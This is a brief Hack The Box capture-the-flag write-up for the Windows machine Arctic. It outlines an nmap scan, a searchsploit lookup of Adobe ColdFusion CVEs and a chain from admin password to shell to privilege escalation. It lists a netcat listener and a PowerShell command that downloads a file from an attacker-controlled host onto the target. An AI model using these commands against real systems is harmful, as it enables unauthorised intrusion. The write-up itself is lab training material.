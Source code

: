 # Arctic
* Link: https://app.hackthebox.com/machines/Arctic
* Type: Windows
* Difficulty: Easy

## Commands Used
* *nmap -sC -sV -oA OUTPUTDIR IPADDRESS* - Nmap scan.
* *searchsploit --id adobe coldFusion* - Search for CVEs for adobe coldfusion.
* *nc -nlvp 4444* - Starts a listener.
* *searchsploit -m 50057* - Gets the PoC of a CVE.
* *sudo python3 windows-exploit-suggester.py --update* - Gets an updated xls file with vulnerabilities.
* *sudo python3 windows-exploit-suggester.py --database DBNAME.xls --systeminfo SYSINFOMFILE.TXT* - Provides lists of exploits for that system.
* *python -m SimpleHTTPServer PORTNUMBER* - Starts a simple HTTP server using python (Can be used to upload files to target system)

* In Windows:
  - *systeminfo* gets information about the system, most importantly,
    1. HotFixes - Indicates updates
    2. System Type - Shows the type of the system
    3. OS Version - Shows the version of the system.
  - *dir* to list files in a directory
  - *type TEXTFILENAME* reads the content of the text file.
  - *EXEFILENAME* runs the exe file.
  - *powershell -c "(new-object System.Net.WebClient).DownloadFile('http://IPADDRESS:PORTNUMBER/FILENAME', 'PATHTODOWNLOAD\FILENAME')"* - Downloads a file using PowerShell.

## Steps
* Start by checking the open ports using nmap (nmap -sC -sV -oA DIR IPADDRESS)
* There is a weird port open, check it.
* There are 2 directories, we identified the system and its version.
* Check for CVEs for that version and system.
* CVE 1 will give the password for the admin.
* CVE 2 will give a shell.
* CVE 3 after getting the shell will do priv esc.

## Why is the machine vulnerable
* The Machine is not patched/updated. 
